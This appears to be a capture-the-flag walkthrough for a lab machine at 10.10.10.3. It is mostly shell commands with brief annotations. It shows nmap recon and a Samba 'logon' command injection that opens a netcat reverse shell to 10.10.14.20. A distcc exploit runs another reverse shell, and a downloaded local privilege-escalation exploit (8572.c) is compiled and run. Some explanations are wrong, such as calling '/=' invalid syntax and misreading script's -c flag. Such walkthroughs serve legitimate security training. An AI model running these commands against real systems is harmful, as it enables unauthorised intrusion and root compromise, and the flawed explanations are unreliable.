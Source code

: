 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon   ---->>>> is likely the name of a function or command that is being called. <br>
"/="    ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup   ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc     ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv     ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e      ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
script -qc /bin/bash /dev/null 
```
"script" ---->>>>  is a command-line utility that creates a typescript of a terminal session.
"-q" ---->>>>  flag tells "script" to run in quiet mode, which suppresses extra messages from being printed on the console.
"c" ---->>>>  flag tells "script" to capture the output to the specified file, in this case, "/dev/null", which is a special file that discards any data written to it.
"/bin/bash" ---->>>>  is the shell interpreter that executes the commands in the script.
"/dev/null" ---->>>>  is a special file that discards any data written to it.

#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```

